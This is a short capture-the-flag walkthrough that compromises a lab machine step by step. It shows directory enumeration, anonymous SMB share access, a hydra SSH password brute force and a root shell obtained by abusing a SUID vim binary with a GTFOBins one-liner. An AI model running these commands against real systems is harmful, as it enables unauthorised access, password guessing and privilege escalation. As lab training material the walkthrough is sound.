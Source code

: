 ***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/vim.basic
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping


vim.basic looks interesting and by referencing to GTFObins we can do a PE with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the file answer for the last question.
